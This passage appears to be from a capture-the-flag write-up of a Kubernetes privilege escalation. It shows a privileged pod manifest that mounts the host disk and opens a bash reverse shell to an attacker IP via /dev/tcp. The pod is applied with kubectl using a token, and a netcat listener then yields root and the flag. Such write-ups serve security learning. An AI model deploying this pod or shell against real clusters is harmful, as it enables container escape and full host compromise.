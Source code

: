 Well, we need a device name (volume/disk) so we can mount the host filesystem. This completely flew over my head but my friend saved me (REALLY) <br>

We managed to get the host volume by using **df** 
```bash
cmd: df -a
-- snip --
/dev/sda2       13867048 8791412   4917708  65% /dev/termination-log
/dev/sda2       13867048 8791412   4917708  65% /etc/resolv.conf
/dev/sda2       13867048 8791412   4917708  65% /etc/hostname
/dev/sda2       13867048 8791412   4917708  65% /etc/hosts
-- snip --
```

Well, we now have it all folks !!! lets fill the template 
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: wazapod
spec:
  containers:
  - name: waza
    image: localhost:5000/node_server
    command: ["/bin/bash"]
    args: ["-c", "mkdir /root_mount; mount /dev/sda2 /root_mount; /bin/bash -c 'bash -i >& /dev/tcp/10.10.16.62/1414 0>&1;'"]
    securityContext:
      privileged: true
  hostNetwork: true
```
and execute it
```bash
# apply the pod config
cmd: kubectl --token=$TOKEN --server=https://10.10.10.235:8443 --certificate-authority=dev-files/ca.cert apply -f ./malicious_pod.yaml
pod/wazapod created

# at another tmux pane
cmd$local: nc -lvvnp 1414
connect to [10.10.16.62] from (UNKNOWN) [10.10.10.235] 43732
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
cmd$remote: whoami && id
root
uid=0(root) gid=0(root) groups=0(root)

cmd$remote: ls -la /root_mount/root/
# -- snip-- 
drwxr-xr-x 10 root root 4096 Jan 17 06:23 .minikube
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rwxr-xr-x  1 root root 3300 Feb 15 18:34 pod_cleanup.py
-rw-r--r--  1 root root   33 May 11 04:18 root.txt

cmd$remote: cat /root_mount/root/root.txt

#FLAG: 9893bfbca6efd2946bcbb9016bf0243a
```